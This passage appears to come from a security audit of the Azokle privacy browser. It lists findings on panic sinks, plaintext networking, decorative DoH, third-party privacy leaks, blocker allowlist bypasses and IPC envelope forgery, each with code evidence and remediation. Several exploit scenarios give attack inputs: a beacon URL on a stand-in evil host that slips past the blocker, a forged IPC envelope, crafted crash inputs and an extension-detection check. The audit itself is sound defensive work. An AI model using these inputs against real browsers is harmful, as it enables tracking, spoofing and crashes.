let hash = seahash::hash(data);   // non-keyed, deterministic -> attacker recomputes
// data_format/mod.rs:69-79 stores hash next to payload; load path compares and accepts
```

**Exploit scenario.** Malware or a malicious sync layer replaces the engine cache with a hostile .dat and fixes up the 8-byte seahash; the browser deserializes it on next launch and every subsequent navigation exercises the corrupted invariants from AZK-F-014/015/016/017.

**Remediation.** Authenticate the cache with an HMAC over the payload using an app-held key (or drop .dat restore and re-parse from text), and add the semantic invariant checks from the related findings at load time.

---

<a id="azk-f-019"></a>
### `AZK-F-019` — [LOW 4.4] unwrap()/unreachable!() panic sinks reachable from deserialized engine data (scriptlet args, hostname-anchored filters)

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/resources/resource_storage.rs:339-340; filters/network_matchers.rs:204,246,286,323,357 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-617 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:N/A:H` = 4.4 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-019` |

**Description.** resource_storage.rs unwraps parse_scriptlet_args() with a comment asserting validity 'guaranteed at filter parsing' - an invariant that does not hold for hostname_inject_script entries read straight from a crafted .dat. Similarly, five matcher functions end in .unwrap_or_else(|| unreachable!()) when a hostname-anchored filter lacks a hostname. Both paths are reachable exclusively through the deserialize entry point, where the flatbuffer verifier checks structure but not these semantic invariants. With panic=abort in release builds each reachable panic terminates the entire browser.

**Code evidence**

```rust
// `unwrap` is safe because these are guaranteed valid at filter parsing.  <-- false for .dat path
let scriptlet_args = parse_scriptlet_args(scriptlet_args).unwrap();
// network_matchers.rs
.unwrap_or_else(|| unreachable!())   // hostname-anchored filter with no hostname
```

**Exploit scenario.** A .dat containing an InjectScript entry with an unbalanced quote/paren (e.g. a.js;\") under a hostname hash matching the visited page panics during url_cosmetic_resources(); startup-time evaluation makes it a crash-loop.

**Remediation.** Replace unwrap/unreachable! with error or skip-and-count fallbacks on the deserialization path and re-validate scriptlet argument grammar at load time.

---

<a id="azk-f-020"></a>
### `AZK-F-020` — [MEDIUM 5.9] Workspace panic = "abort" silently disables every FFI catch_unwind barrier the codebase documents as its safety contract

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | Cargo.toml:54-59; bindings/c/src/lib.rs (21 catch_unwind sites); bindings/c/include/azokle_core.h:21-22; SECURITY.md:59-60 | **Component** | Build / FFI Boundary |
| **CWE** | CWE-755 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:N/A:H` = 5.9 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-020` |

**Description.** The release profile sets panic = "abort", which makes std::panic::catch_unwind a no-op: panics call abort() directly. The C bridge wraps all 21 exported functions in catch_unwind and its header (plus SECURITY.md) promises 'safe fallbacks rather than unwinding across the FFI boundary' - a guarantee that is false in every shipped release build. Combined with the panic sinks documented above (AZK-F-014 through AZK-F-019), any remotely reachable panic in core crates kills the whole browser process rather than returning a fallback. On Android this SIGABRTs the app; the header contract is misleading to embedders and auditors alike.

**Code evidence**

````toml
[profile.release]
panic = "abort"      # catch_unwind never runs in release
```
```c
/* azokle_core.h:21-22 - claim is false under abort */
* 5. All functions catch Rust panics internally via std::panic::catch_unwind and return safe
*    fallbacks (null pointers, false, or 0) rather than unwinding across the FFI boundary.
````

**Exploit scenario.** An attacker triggers any documented panic sink (e.g. via a crafted engine cache or a panicking parsing edge in a web-reachable path); instead of the promised fallback the process aborts. Repeating the input creates a crash-loop; if the panic occurs on a startup path the browser is bricked.

**Remediation.** Either drop panic = "abort" for FFI-facing profiles (restore unwind + existing barriers) or keep abort and guarantee panic-freedom at the bridge by pre-validating inputs and linting #![deny(clippy::unwrap_used, clippy::expect_used)] in crates reachable from FFI. Correct the header and SECURITY.md to describe actual behavior.

---

<a id="azk-f-021"></a>
### `AZK-F-021` — [MEDIUM 5.9] 74 of 87 JNI exports lack the safe_jni! panic barrier, including web-content-reachable paths

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | bindings/kotlin/src/lib.rs (87 extern "system" fns; 11 safe_jni! + 2 safe_jni_void! uses) | **Component** | Android Bindings (Rust) |
| **CWE** | CWE-248 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:N/A:H` = 5.9 MEDIUM |
| **Confidence** | LIKELY | **Tracking ID** | `AZK-F-021` |

**Description.** Only 13 of the 87 exported JNI functions use the project's own safe_jni!/safe_jni_void! catch_unwind wrapper; the remaining 74 - including cleanUrl, getCosmeticCss, getScriptlets, isTracker and the Tor entry points that receive URLs and domains originating from web pages - run unwrapped. Any panic in those paths unwinds across an extern "system" boundary, which the JVM treats as a fatal abort. The project's own CONTRIBUTING.md mandates the wrapper for every FFI function, so this is a systematic non-compliance rather than an oversight in one place. Under panic=abort (AZK-F-020) the barrier would not help, but the two must be fixed together to restore defense-in-depth.

**Code evidence**

```rust
#[no_mangle]
pub extern "system" fn Java_com_azokle_search_core_AzokleCore_cleanUrl(...) -> jstring {
    let url_str = match env.get_string(&url) { ... };
    let cleaned = get_core().trackers.strip_tracking_params(&url_str);   // no catch_unwind
    safe_jstring(&mut env, &cleaned)
}
```

**Exploit scenario.** A crafted URL that panics inside strip_tracking_params/unwrap_bounce_url (multibyte or regex edge) is navigated to; the JVM process dies with the page open - repeatable crash-loop DoS from web content.

**Remediation.** Wrap every export body in the existing macro (mechanical change) and add a CI lint/test that fails when any #[no_mangle] pub extern "system" fn body lacks a safe_jni wrapper.

---

<a id="azk-f-022"></a>
### `AZK-F-022` — [LOW 3.1] fb_vector_to_slice alignment/length asserts fire after verification on hostile engine caches

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/flatbuffers/unsafe_tools.rs:29-31 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-617 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:N/A:L` = 3.1 LOW |
| **Confidence** | POSSIBLE | **Tracking ID** | `AZK-F-022` |

**Description.** The helper asserts that vector byte length is a multiple of element size and the pointer alignment matches before transmuting to a typed slice. The asserts fire after flatbuffer structural verification, so memory safety holds - but if the shipped flatbuffers verifier (25.12.19) permits a misaligned or odd-length u64 vector, the assert converts a hostile .dat into a panic at the first hostname_index() call rather than a clean error. The codebase's own hardening note (AZB-P02) reduced direct unsafe exposure, yet the panic path remains.

**Code evidence**

```rust
assert!(bytes.len().is_multiple_of(size));
assert!((bytes.as_ptr() as usize).is_multiple_of(align));
// fires post-verify: hostile .dat -> panic instead of Err
```

**Exploit scenario.** A crafted .dat with a u64 vector at a 4-mod-8 offset (if verifier-leniency applies) panics the engine on first hash lookup; under panic=abort this aborts the process.

**Remediation.** Replace both asserts with checked conversion returning Result, rejecting such vectors at verify/load time instead of panicking at use time.

---

<a id="azk-f-023"></a>
### `AZK-F-023` — [LOW 3.3] Unbounded filter/resource accumulation with full engine rebuild on every load call

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock/src/lib.rs:168-195,221-251 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-770 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L` = 3.3 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-023` |

**Description.** load_rules_from_text() pushes each incoming list string onto a growing Vec and then rebuilds the entire Brave engine from scratch; there is no deduplication, no per-list identifier replace semantics, no maximum list byte/entry cap, and no cap on selector lengths anywhere in the pipeline. Repeated or re-entrant load calls (or a compromised updater feeding the same list many times) accumulate the full text of every list in memory and trigger O(n) engine rebuilds each time - memory and CPU amplification on the browsing thread. The engine rebuild itself parses the entire corpus synchronously.

**Code evidence**

```rust
lists.push(content.to_string());          // no dedup, no cap
let new_engine = rebuild_brave_engine(&lists, &res);   // full rebuild per call
```

**Exploit scenario.** A compromised updater or a bug that re-invokes load_rules_from_text in a loop grows the process by the full text of the corpus per call and forces a synchronous engine rebuild each time - freezing or OOM-killing the browser.

**Remediation.** Introduce replace-by-id semantics for list updates, cap total stored bytes and per-selector length, and rebuild once per bulk load rather than per call.

---

<a id="ch-8"></a>
## 8. Network Security and Privacy Leakage

Network and privacy findings describe what leaves the user's machine and what the network can do to it. The audit verified strong controls (DNS-rebinding re-validation, .onion leak prevention, fail-closed Tor PAC), then found the advertised privacy posture undercut from the inside: a plaintext-only HTTP core that cannot speak TLS, decorative DNS-over-HTTPS, a hardcoded IP pin, keystroke and favicon traffic to third parties, and an extension allowlist whose substring matching is a deterministic blocker bypass. This chapter documents 11 findings (0 HIGH, 6 MEDIUM).

<a id="azk-f-024"></a>
### `AZK-F-024` — [MEDIUM 4.0] Core HTTP client is plaintext-only and rejects HTTPS: the encrypted search API can never function, and any future HTTP fallback ships cleartext queries

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/networking/src/client.rs:146-152; crates/networking/src/services.rs:46-53,66-97; crates/networking/src/lib.rs (HttpClient::fetch_url) | **Component** | Networking Core (Rust) |
| **CWE** | CWE-319 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:L` = 4.0 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-024` |

**Description.** SovereignHttpClient::execute() fail-closes every https:// URL ('raw TCP socket cannot safely negotiate TLS') yet offers no TLS implementation, so the only transport it can ever use is plaintext HTTP on port 80. SearchApiClient::default() is configured with base_url https://search.azokle.com, meaning every get_autosuggestions()/execute_search() call deterministically fails with TlsError - the 'Sovereign Search' API path is dead code in the shipped engine. The fail-closed choice is honest, but the architecture it guards is a security trap: any pragmatic fix that flips the base URL to http:// sends every user search query in cleartext, and HtmlExtractor::fetch_url() is one config edit away from that state. The subsystem therefore simultaneously breaks availability (no encrypted search) and preserves a cleartext-by-default design.

**Code evidence**

```rust
if parsed_url.scheme() == "https" {
    return Err(NetworkError::TlsError(
        "Plaintext socket cannot negotiate HTTPS..."));
}
// services.rs:51 - base_url points at https://, so every call errors
```

**Exploit scenario.** Functionally, search suggestions/results through the Rust engine never load (silent empty results in consumers). If the endpoint is switched to http:// to restore function, a network observer reads every query - on a browser whose entire premise is privacy.

**Remediation.** Integrate rustls into SovereignHttpClient (certificate verification on, system roots) and keep the https fail-closed check only as a pre-TLS guard; alternatively remove the search client until TLS exists. Add an integration test asserting no code path can issue cleartext HTTP to azokle endpoints.

---

<a id="azk-f-025"></a>
### `AZK-F-025` — [MEDIUM 4.8] DNS-over-HTTPS providers are decorative: resolution uses the OS resolver, with a hardcoded IP pin for azokle endpoints

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/networking/src/dns.rs:113-177 (resolve_internal), 33-43 (get_doh_url) | **Component** | Networking Core (Rust) |
| **CWE** | CWE-345 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:L/A:N` = 4.8 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-025` |

**Description.** The resolver advertises Cloudflare/Quad9/Mullvad/AdGuard DoH endpoints and get_doh_url() is exercised in tests, but resolve_internal() never issues a DoH query: it falls through to std ToSocketAddrs (the OS resolver, plaintext UDP to the local network's DNS) for every hostname. Worse, search.azokle.com and api.azokle.com short-circuit to a hardcoded 104.21.5.12, bypassing both DoH and DNS entirely and breaking the moment the provider's IP changes. The advertised privacy property (encrypted resolution) is not implemented anywhere, while the settings surface exposes a doh_provider preference the engine ignores (see AZK-F-066). Users believe they have DoH; they have their ISP's resolver.

**Code evidence**

```rust
fn resolve_internal(&self, host: &str) -> ... {
    if host == "search.azokle.com" || host == "api.azokle.com" {
        return Ok(vec![ "104.21.5.12".parse().unwrap() ]);   // hardcoded pin
    }
    // system fallback - never DoH
    format!("{}:443", host).to_socket_addrs()
}
```

**Exploit scenario.** A local network attacker passively observes every hostname the engine resolves (no encryption), and can actively poison responses for all domains except the two pinned ones. The pinned IPs themselves are spoofable at the network layer because the HTTP client cannot do TLS (AZK-F-024) to authenticate the endpoint.

**Remediation.** Implement the DoH path (reqwest/rustls + RFC 8484 JSON or wireformat) and route resolve_internal through it; remove the hardcoded IP pin; keep the OS resolver only as an explicitly-labeled fallback with cache flush on network change.

---

<a id="azk-f-026"></a>
### `AZK-F-026` — [LOW 3.5] HTTP response status parsing fails open to 200 on malformed status lines

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/networking/src/client.rs:272-292 | **Component** | Networking Core (Rust) |
| **CWE** | CWE-755 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:L/A:N` = 3.5 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-026` |

**Description.** The response parser extracts the status code with .and_then(parse).unwrap_or(200), and when no \r\n\r\n header terminator exists the entire raw body is returned with status 200. Any caller making authorization or retry decisions on response.is_success() treats a garbled or truncated response - or deliberately malformed input from a hostile server - as success. The parser also collapses duplicate headers into a HashMap, silently discarding repeated Set-Cookie-class headers.

**Code evidence**

```rust
let status_code = lines.next()
    .and_then(|line| line.split_whitespace().nth(1))
    .and_then(|code| code.parse::<u16>().ok())
    .unwrap_or(200);          // malformed -> 200 OK
```

**Exploit scenario.** AMitM or hostile endpoint returns garbage bytes where a status line should be; the client reports HTTP 200 and callers proceed as if the operation succeeded, corrupting retry/fallback logic and masking attacks that rely on non-standard responses.

**Remediation.** Fail closed: return a NetworkError::ProtocolError when the status line is missing/unparseable or the header terminator is absent; store headers as Vec&lt;(String,String)&gt; to preserve duplicates.

---

<a id="azk-f-027"></a>
### `AZK-F-027` — [MEDIUM 4.3] Omnibox autosuggest sends every keystroke to the clearnet, including in Tor and private tabs

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios/Azokle Browser/Views/OmniboxSheet.swift:332-385 | **Component** | iOS App (Swift) |
| **CWE** | CWE-359 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:N/A:N` = 4.3 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-027` |

**Description.** handleQueryChange() POSTs the current omnibox text (2+ characters, 140 ms debounce) to https://search.azokle.com/api/v1/autosuggest via URLSession.shared with no isTor or private-mode gate and no use of the selected search engine. This is the app's only direct network egress outside the WebView, and it bypasses the per-tab data stores, the Tor routing and the NavigationSecurity review that WebView traffic passes through. In a 'Tor Circuit' tab - the one mode the browser otherwise fail-closes - each keystroke is POSTed straight to azokle.com over the clearnet, a de-anonymization channel.

**Code evidence**

```swift
guard let url = URL(string: "https://search.azokle.com/api/v1/autosuggest") ...;
let (data, _) = try await URLSession.shared.data(for: request)
// no isTor / isPrivate / selectedSearchEngine checks
```

**Exploit scenario.** A user types a sensitive query in a Tor tab; every keystroke (plus device IP and TLS fingerprint) reaches the vendor's server directly, defeating the circuit the user believes is protecting them.

**Remediation.** Gate the call on !state.activeTab.isTor &amp;&amp; !isPrivate, honor the selected engine's suggest endpoint, and route through the same security review as WebView traffic (or disable remote suggestions entirely).

---

<a id="azk-f-028"></a>
### `AZK-F-028` — [MEDIUM 4.3] New-tab speed dial fetches favicons from google.com/s2 on every home render

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios/Azokle Browser/Views/HomeScreen.swift:27-34,147-160 | **Component** | iOS App (Swift) |
| **CWE** | CWE-359 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:N/A:N` = 4.3 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-028` |

**Description.** HomeScreen builds speed-dial entries with faviconUrl pointing at Google's public favicon service and loads them via AsyncImage on every home render. A browser advertising zero telemetry transmits user IP, timing of every home-screen view, and the full speed-dial domain list to a third party. The TS-side NTP has the analogous Unsplash leak (AZK-F-029), indicating a systemic pattern of decorative remote resources in privacy-critical surfaces.

**Code evidence**

```swift
faviconUrl: "https://www.google.com/s2/favicons?domain=\(domain)"
// rendered via AsyncImage(url:) on every HomeScreen render
```

**Exploit scenario.** Every launch/home view of the privacy browser emits requests to Google - a correlation beacon and a usage-timing oracle; under Tor routing it also burns exit diversity for zero benefit.

**Remediation.** Bundle favicons as local assets (the repo already ships engine icons), or fetch through the tab's WKWebsiteDataStore-scoped loader with aggressive caching and a user-visible opt-in.

---

<a id="azk-f-029"></a>
### `AZK-F-029` — [MEDIUM 5.3] New Tab Page unconditionally fetches an Unsplash wallpaper in a 'zero telemetry' browser

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | ui/src/pages/newtab/newtab.css:49-53 (identical copy at components/azokle_new_tab_ui/newtab.css:49-53) | **Component** | Browser Chrome (TypeScript) |
| **CWE** | CWE-359 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` = 5.3 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-029` |

**Description.** The with-wallpaper NTP style embeds a hot-linked images.unsplash.com photo; showWallpaper defaults to true, so every new tab issues a third-party GET carrying the user's IP, TLS fingerprint and the precise time of tab-open events. The request traverses the Tor SOCKS proxy in Tor mode, giving a censor or exit observer a clean 'Azokle NTP opened at time T' signal. For a browser whose menu advertises 'Zero telemetry', this is a self-inflicted phone-home that no privacy policy change can fix - it is baked into the shipped stylesheet.

**Code evidence**

```css
.brave-ntp-root.with-wallpaper {
  background-image:
    radial-gradient(ellipse at center, rgba(18,20,26,0.4) 0%, rgba(18,20,26,0.85) 100%),
    url('https://images.unsplash.com/photo-1518495973542-4542c06a5843?...');
}
```

**Exploit scenario.** A network observer (or Unsplash/Imgix) logs each NTP open with IP and timestamp; across a user population this is behavioral telemetry by another name, contradicting the product's core claim.

**Remediation.** Ship the wallpaper as a bundled asset (assets/wallpaper/*.jpg already exist in-repo) and gate any remote wallpaper behind an explicit, user-initiated opt-in.

---

<a id="azk-f-030"></a>
### `AZK-F-030` — [LOW 3.7] Reader mode re-fetches the page through URLSession outside the WebView's session isolation

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios/Azokle Browser/Reader/ReaderExtractor.swift:49-74 | **Component** | iOS App (Swift) |
| **CWE** | CWE-200 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:L/I:N/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-030` |

**Description.** ReaderExtractor issues its own URLSession.shared.dataTask for the article URL instead of extracting from the live WKWebView. The Tor gate exists at the sole caller (tab.isTor is passed), but there is no private-mode gate: in private browsing a second, cookie-less clearnet request for the page is emitted from the shared session, visible to network observers and the shared URLCache. The scheme is not restricted to http(s), so a future caller passing a file: or custom-scheme URL would be honored by URLSession.

**Code evidence**

```swift
var request = URLRequest(url: url)
... URLSession.shared.dataTask(with: request)   // shared session, no private-mode gate
```

**Exploit scenario.** A user opens reader mode on a private tab; the fetch leaves the device via the shared session (no tab isolation, shared cache), giving network observers a second correlation point and undermining the private data store's promise.

**Remediation.** Extract from the live WKWebView (evaluateJavaScript-based extraction) or fetch in the tab's WKWebsiteDataStore-bound session; explicitly reject non-http(s) schemes.

---

<a id="azk-f-031"></a>
### `AZK-F-031` — [LOW 3.7] Primary adblock engine built with debug=true: raw hostile rule text retained in memory and shipped across IPC

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock/src/lib.rs:27,324,329,338 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-200 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-031` |

**Description.** rebuild_brave_engine() constructs its FilterSet with debug=true for the always-on primary engine, so the engine retains the raw_line of every rule. Every FilterDecision then copies the matched rule's raw text across FFI/IPC to UI surfaces. For EasyList-class corpora this roughly doubles engine memory, and it propagates unfiltered, list-controlled text (attacker influence possible via list compromise) into consumer layers that treat it as display data. Debug mode exists to support convert_to_content_blocking; the primary engine does not need it.

**Code evidence**

```rust
let mut filter_set = FilterSet::new(true);   // debug=true for the always-on engine
... matched_rule: Some(filter.raw_line.clone()) // hostile text shipped per decision
```

**Exploit scenario.** A filter list embeds a rule whose raw_line contains misleading or attacker-chosen text; every block decision surfaces that text to the UI/IPC layer, and memory doubles for large lists - degrading both efficiency and trust in what the UI displays.

**Remediation.** Build the primary/custom engines with debug=false; enable debug=true only inside convert_to_content_blocking where raw lines are genuinely required.

---

<a id="azk-f-032"></a>
### `AZK-F-032` — [LOW 3.5] Missing source origin disables every $domain= rule; sovereign pre-allowlist is unfilterable by design

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock/src/lib.rs:282-301,312-314,396-398 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-697 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:L/A:N` = 3.5 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-032` |

**Description.** When callers omit source context, the bridge substitutes an empty string and the engine's check_included_domains_mapped() returns false ('cannot apply the rule'), silently disabling all $domain=-restricted blocking for that request. Unparseable URLs likewise fall through to allow(). Additionally, is_sovereign() short-circuits to allow before the engine sees the request for *.cloudflare.com/*.hcaptcha.com/*.recaptcha.net - including third-party-hosted payloads on those domains - making that namespace permanently unfilterable.

**Code evidence**

```rust
let src = source_origin.unwrap_or("");   // "" -> $domain= rules all return false
if is_sovereign { return FilterDecision { should_block: false, ... }; }  // pre-engine allow
```

**Exploit scenario.** An embedder path that omits source origin (or a tracker hosted under cloudflare.com pages) bypasses domain-scoped blocking entirely; the shield counters keep reporting protection that is not applied.

**Remediation.** Treat missing source as an explicit 'unknown first-party' semantic with a defined decision (conservative apply-or-deny), log unparseable URLs as errors rather than silently allowing, and narrow the sovereign pre-allowlist to the exact challenge endpoints.

---

<a id="azk-f-033"></a>
### `AZK-F-033` — [MEDIUM 5.3] Extension challenge/allowlist uses substring matching: any host containing 'turnstile' or path containing /cdn-cgi/ is exempt from all blocking

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | extensions/azokle-shield/background.js:154-169 (called from onBeforeRequest at 463-466) | **Component** | azokle-shield Extension |
| **CWE** | CWE-183 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` = 5.3 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-033` |

**Description.** isSovereignInfrastructure() whitelists any hostname containing the substring 'turnstile' and any URL whose path contains /cdn-cgi/ or /challenge-platform/, before every other rule, cache lookup and native-engine consultation. A tracker operator registers turnstile-cdn.track-everything.com or serves its beacon under /cdn-cgi/collect and is exempt unconditionally - for all request types including scripts, XHR and beacons. The same function's verdict also suppresses reportBlockToApp accounting, so the bypass is invisible in the user's statistics.

**Code evidence**

```js
if (h.endsWith(... '|| h.includes('turnstile') || hostMatches(h, 'challenges.cloudflare.com')) return true;
var u = (url || '').toLowerCase();
if (u.includes('/cdn-cgi/') || u.includes('/challenge-platform/')) return true;   // any host, any path
```

**Exploit scenario.** A tracking network serves https://tracker.evil.com/cdn-cgi/collect?uid=... ; onBeforeRequest returns {cancel:false} before any heuristic or native engine verdict, giving a deterministic zero-cost blocker bypass to any site that opts in.

**Remediation.** Require the cloudflare/challenge host itself for path exemptions (hostMatches(h,'challenges.cloudflare.com') || h.endsWith('.cloudflare.com')) and match turnstile as an exact host or parented suffix, never as a bare substring.

---

<a id="azk-f-034"></a>
### `AZK-F-034` — [LOW 3.5] Deterministic extension fingerprint: fixed DOM artifacts and web_accessible_resources wildcards expose the blocker to anti-adblock gates

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | extensions/azokle-shield/manifest.json:45-48; scriptlets/defuser.js:69-79; content.js:95-100 | **Component** | azokle-shield Extension |
| **CWE** | CWE-359 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` = 3.5 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-034` |

**Description.** The extension plants fixed, unconditional DOM artifacts - a &lt;style id="azokle-shield-cosmetic"&gt; element in the main-world DOM and a &lt;script src="moz-extension://.../scriptlets/defuser_main.js"&gt; fallback tag - and declares web_accessible_resources for scriptlets/* and surrogates/*. A page can detect the shield specifically by querying the style id, scanning for the extension-scheme script tag, and confirming via fetch('moz-extension://&lt;uuid&gt;/surrogates/gtm.js'). After an anti-adblock gate captures the UUID it can serve degraded content to shield users, defeating the extension's extensive defuser work.

**Code evidence**

```js
var styleEl = document.createElement("style");
styleEl.id = "azokle-shield-cosmetic";            // fixed, unconditional, main-world
// manifest.json
"web_accessible_resources": [ "surrogates/*", "scriptlets/*" ]
```

**Exploit scenario.** document.getElementById('azokle-shield-cosmetic') !== null is a one-line, zero-cost gate; combined with the WAR probe it yields reliable Azokle-Shield detection regardless of the page's other defenses.

**Remediation.** Track injected style/script elements via handles instead of fixed ids, randomize per-session asset path segments for the fallback loader, and narrow WAR to the exact surrogate filenames referenced by surrogateRules.

---

<a id="ch-9"></a>
## 9. Access Control, IPC and Origin Trust

Access-control findings concern who may send what across the browser's internal boundaries: the AUBP IPC envelope that authenticates nothing it could authenticate, extension message handlers that trust caller-supplied domains, download destinations accepted verbatim, and a desktop tab-creation path that skips the scheme allowlist its sibling enforces. None of these is remotely exploitable today on its own; each becomes material the moment the adjacent component grows an untrusted caller. This chapter documents 10 findings (0 HIGH, 1 MEDIUM).

<a id="azk-f-035"></a>
### `AZK-F-035` — [MEDIUM 4.8] AUBP protocol envelope validation is weaker than its own schema: spoofable source, no message-id format, no freshness or replay defense

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/protocol/src/envelope.rs:81-114; protocols/schemas/aubp-v1.json:16-37; bindings/c/src/lib.rs:314-342; bindings/kotlin/src/lib.rs:1888-1918 | **Component** | IPC Protocol (Rust) |
| **CWE** | CWE-345 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:N` = 4.8 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-035` |

**Description.** ProtocolEnvelope::from_json/from_cbor checks only version compatibility. The schema's message_id pattern ^msg_[0-9]+_[0-9]+$, any length caps, and timestamp semantics are never enforced in code: a deserialized envelope may carry message_id "x", timestamp_ms 0, and any source value including "rust_core". Dispatch entry points in the C and Kotlin bindings accept such envelopes directly, so downstream consumers cannot distinguish forged envelopes from genuine core-originated events. The JSON schema's payload field is an unconstrained object, and the generated Rust models carry no deny_unknown_fields. Any local process or compromised bridge that can reach a dispatch entry point can replay or fabricate control messages.

**Code evidence**

```rust
pub fn from_json(json: &str) -> Result<Self, ProtocolError> {
    let envelope: Self = serde_json::from_str(json)?;   // only shape
    if !ProtocolVersion::CURRENT.is_compatible_with(&envelope.version) { ... }
    Ok(envelope)    // message_id/timestamp/source unvalidated
}
```

**Exploit scenario.** A compromised extension bridge sends {"version":{"major":1,"minor":0,"patch":0},"message_id":"x","timestamp_ms":0,"source":"rust_core","target":"desktop_ui","payload":{...Command...}}; it deserializes cleanly, is indistinguishable from core-originated traffic, and can be replayed verbatim (no nonce/dedupe) to re-trigger commands.

**Remediation.** Enforce in both decoders: length caps and regex for message_id/correlation_id (&lt;=128), timestamp within a bounded window with a replay cache, and treat source as an untrusted routing hint - authorization must derive from the transport channel. Regenerate models from the schema with additionalProperties:false and #[serde(deny_unknown_fields)].

---

<a id="azk-f-036"></a>
### `AZK-F-036` — [LOW 2.5] IPC framing, size limits and heartbeats exist only in the specification: dispatch entry points take unbounded raw strings

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | protocols/ipc/ipc_specification.md:8-21; protocols/api/api_specification.md:11-28 | **Component** | IPC Protocol |
| **CWE** | CWE-770 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:N/A:L` = 2.5 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-036` |

**Description.** The IPC specification mandates a 4-byte length prefix, a 16,777,216-byte maximum frame and 30-second heartbeats. A repo-wide search finds no implementation of any of these constants: every FFI dispatch entry point accepts raw JSON/CBOR strings with no size gate before serde deserialization. A future transport implementer following the README will pipe a socket straight into ProtocolEnvelope::from_json, exposing the browser process to multi-gigabyte allocation on a hostile peer. Heartbeat-based dead-peer cleanup simply does not exist.

**Code evidence**

```
| Length (4 Bytes) | ProtocolEnvelope (CBOR Binary or UTF-8 JSON Payload) |
- **Maximum Frame Size**: 16 MB (16,777,216 bytes).   <- no MAX_FRAME constant exists in any .rs
```

**Exploit scenario.** A local peer floods an unbounded from_json() with a multi-GB JSON document; serde allocation exhausts memory and the browser process is killed by the OOM manager.

**Remediation.** Either implement the framing layer (length-prefixed reader enforcing MAX_FRAME = 16_777_216, returning ProtocolError::InvalidEnvelope above the cap, plus heartbeat events) or demote the specification to 'planned'; add a fuzz target for from_json/from_cbor with size caps.

---

<a id="azk-f-037"></a>
### `AZK-F-037` — [LOW 3.1] Extension message hub trusts caller-supplied domains and forwards raw page-derived objects to the native host

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | extensions/azokle-shield/background.js:638-686 | **Component** | azokle-shield Extension |
